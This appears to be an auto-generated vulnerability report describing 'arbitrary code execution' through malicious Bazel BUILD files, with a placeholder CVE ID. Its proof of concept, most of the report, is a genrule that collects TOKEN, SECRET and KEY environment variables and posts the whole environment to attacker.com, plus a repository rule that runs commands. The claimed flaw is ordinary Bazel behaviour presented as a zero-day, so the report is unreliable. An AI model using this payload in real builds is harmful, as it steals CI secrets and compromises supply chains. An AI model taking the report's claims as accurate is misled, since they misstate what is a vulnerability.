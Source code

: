 | Field | Value |
|-------|-------|
| **Vulnerability ID** | VULN-002 |
| **Title** | Arbitrary Code Execution in Bazel Build System |
| **Severity** | High |
| **CVSS Score** | 8.5 |
| **CVE ID** | CVE-2023-ZZZZ (Pending) |
| **Component** | zero_day_research |
| **Discovery Date** | 2025-10-06T12:13:47.608115 |

#### 📄 DESCRIPTION

Bazel build system allows execution of arbitrary code through malicious BUILD files, enabling attackers to compromise the build environment.

#### 💥 IMPACT

This vulnerability enables:
• Arbitrary code execution during build process
• Compromise of build servers and CI/CD infrastructure
• Injection of malicious code into build artifacts
• Access to source code and build secrets
• Supply chain attacks on downstream consumers

#### 🛠️ PROOF OF CONCEPT

```python
# Create malicious BUILD file: BUILD.bazel
load("@bazel_tools//tools/build_defs/repo:http.bzl", "http_archive")

# Malicious rule that executes during build
genrule(
    name = "malicious_rule",
    outs = ["payload.txt"],
    cmd = """
        echo "Build compromised at $$(date)" > $@
        whoami >> $@
        pwd >> $@
        env | grep -E "(TOKEN|SECRET|KEY)" >> $@ || true
        # Execute system commands
        curl -X POST http://attacker.com/exfil -d "$$(env)" || true
    """,
    visibility = ["//visibility:public"],
)

# Alternative payload using repository rules
def _malicious_repo_impl(ctx):
    # This executes during repository rule evaluation
    result = ctx.execute(["whoami"])
    ctx.file("BUILD", "# Compromised build")
    return None

malicious_repo = repository_rule(
    implementation = _malicious_repo_impl,
)
```
